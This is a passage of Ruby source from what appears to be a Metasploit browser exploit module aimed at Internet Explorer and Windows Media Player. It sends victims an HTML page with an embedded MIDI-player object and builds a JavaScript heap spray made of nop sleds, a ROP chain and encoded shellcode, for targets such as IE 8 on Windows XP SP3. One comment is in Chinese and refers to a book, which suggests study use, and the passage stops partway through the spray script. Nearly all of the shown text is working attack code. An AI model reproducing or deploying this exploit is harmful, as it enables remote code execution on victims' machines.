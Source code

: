 ```ruby
		</script>
		</head>
		<body>
			<object ID="audio" WIDTH=1 HEIGHT=1 CLASSID="CLSID:22D6F312-B0F6-11D0-94AB-0080C74C7E95">
				<param name="fileName" value="#{midi_uri}">
				<param name="SendPlayStateChangeEvents" value="true">
				<param NAME="AutoStart" value="True">
				<param name="uiMode" value="mini">
				<param name="Volume" value="-300">
			</object>
		</body>
		</html>
		|

		html = html.gsub(/^\t\t/, '')

		print_status("Sending html to #{cli.peerhost}:#{cli.peerport}...")
		send_response(cli, html, {'Content-Type'=>'text/html'})
	end

	def exploit
		@m_name, @midi = get_midi   #这个就 直接构造好了 数据  ，书中所写的下面
		super
	end

	def build_spray(my_target)

		# Extract string based on target
		if my_target.name == 'IE 8 on Windows XP SP3'
			js_extract_str = "var block = shellcode.substring(2, (0x40000-0x21)/2);"
		else
			js_extract_str = "var block = shellcode.substring(0, (0x80000-6)/2);"
		end

		# Build shellcode based on Rop requirement
		if my_target['Rop']
			code = create_rop_chain(my_target)
			code << payload.encoded
			shellcode = Rex::Text.to_unescape(code)
		else
			code = payload.encoded
			shellcode = Rex::Text.to_unescape(code)
		end

		# 1. Create  big block of nops
		# 2. Compose one block which is nops + shellcode
		# 3. Repeat the block
		# 4. Extract string from the big block
		# 5. Spray
		spray = <<-JS
		var heap_obj = new heapLib.ie(0x10000);

		var code = unescape("#{shellcode}");
		var nops = unescape("%u0c0c%u0c0c");

		while (nops.length < 0x1000) nops+= nops;

		var shellcode =  nops.substring(0,0x800 - code.length) + code;

		while (shellcode.length < 0x40000) shellcode += shellcode;

		#{js_extract_str}
```